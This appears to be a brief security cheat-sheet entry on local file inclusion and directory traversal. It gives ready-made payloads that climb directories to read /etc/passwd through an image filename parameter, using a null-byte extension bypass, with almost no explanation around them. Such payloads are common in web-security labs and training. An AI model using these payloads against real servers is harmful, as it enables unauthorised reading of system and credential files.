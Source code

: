 # LFI
### Directory traversal | File path traversal
Replace LFI payloads:
../../../etc/passwd%00.png
to
../../../etc/passwd%00index.html
EJP:
```shell
/image?filename=25.jpg
```

```bash
/image?filename=../../../etc/passwd%00.png
```

